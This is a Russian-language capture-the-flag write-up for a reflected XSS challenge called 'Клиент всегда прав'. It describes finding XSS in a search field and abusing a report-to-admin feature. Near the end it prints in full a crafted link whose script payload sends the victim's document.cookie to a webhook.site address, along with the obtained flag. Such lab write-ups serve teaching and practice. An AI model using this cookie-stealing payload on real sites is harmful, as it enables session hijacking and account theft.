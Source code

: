 # Клиент всегда прав

При входе на сайт видим строку поиска и три публикации, на которые можно отправить репорт

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/%D0%B8%D0%B7%D0%BE%D0%B1%D1%80%D0%B0%D0%B6%D0%B5%D0%BD%D0%B8%D0%B5.png?raw=true)

Проверяем сайт на наличие XSS уязвимости. Проверка показывает положительный результат

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/Screenshot_137.png?raw=true)

## Пробуем атаковать

Кнопка репорта отправляет публикацию администратору, причём в адресной строке можно заметить полную ссылку на публикацию. Прямая попытка ввода скрипта в репорт результата не даёт

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/Screenshot_138.png?raw=true)

Создаём сессию на `webhook.site`, на неё мы будем принимать результаты запроса

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/Screenshot_139.png?raw=true)

Изменим ссылку репорта, на ссылку страницы поиска с внедрённым пейлоадом. Итоговая ссылка будет выглядеть так
>http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='https://webhook.site/a2b7f0c7-8ea3-44a8-ba64-927c4c4d1927/?cookie='%252BencodeURIComponent(document.cookie)</script>

Вставляем её в адресную строку, получаем отстук на webhook:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/b859bede-91a6-4c5d-add7-86f7e31a59b0)

Флаг получен: ***CODEBY{r3fl3cted_XSS_expl0it3d}***
